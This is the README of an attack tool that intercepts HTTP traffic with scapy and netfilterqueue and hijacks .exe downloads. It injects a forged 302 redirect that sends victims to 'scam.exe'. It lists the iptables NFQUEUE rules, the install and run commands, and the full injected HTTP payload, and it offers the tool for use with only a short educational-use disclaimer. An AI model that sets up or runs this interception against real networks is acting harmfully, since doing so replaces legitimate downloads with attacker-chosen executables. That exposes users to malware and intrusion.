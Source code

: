 # 🔄 File Redirect Injector

This tool intercepts HTTP traffic and detects `.exe` file download requests. If a match is found, it injects a fake HTTP 302 redirect response, pointing the client to a custom file (`scam.exe`).

⚠️ Use this tool **only in educational or authorized environments**. Do not use it on live networks without explicit permission.

---

## 🚀 Features

* Monitors HTTP traffic over port 80
* Detects `.exe` file download requests (except `scam.exe`)
* Injects a `302 Found` HTTP response to redirect downloads
* Automatically recalculates IP and TCP checksums

---

## 🛠 Requirements

* Python 3
* Root privileges 🧑‍💻
* Required Python libraries:

  ```bash
  pip install scapy netfilterqueue
  ```

---

## 🔧 iptables Configuration

To make the script work, you need to set up an iptables rule to forward traffic to the Netfilter queue:
```bash
iptables -I FORWARD -j NFQUEUE --queue-num 1
```

For local testing:
```bash
iptables -I OUTPUT -j NFQUEUE --queue-num 1
iptables -I INPUT -j NFQUEUE --queue-num 1
```
---

## ▶️ Run the Script

```bash
sudo python3 fileRedirect.py
```

---

## 📸 How it Works

1. Detects HTTP request for a `.exe` file (e.g. `bitcoin.exe`)
2. Stores the ACK number to identify the matching response
3. On receiving the HTTP response with a matching SEQ:

   * Injects this payload:

     ```http
     HTTP/1.1 302 Found

     Location: http://127.0.0.1:80/scam.exe

     Cache-Control: no-cache, no-store, must-revalidate
     Pragma: no-cache
     Expires: 0
     Connection: close
     Content-Length: 0
     Content-Disposition: attachment; filename="replaced.exe"
     ```

---

## 🛡️ Disclaimer

🔒 This script is intended **for ethical and educational purposes only**.
📵 Unauthorized use on live networks or third-party systems may be illegal.

---

## 📜 License
Distributed under the MIT License.
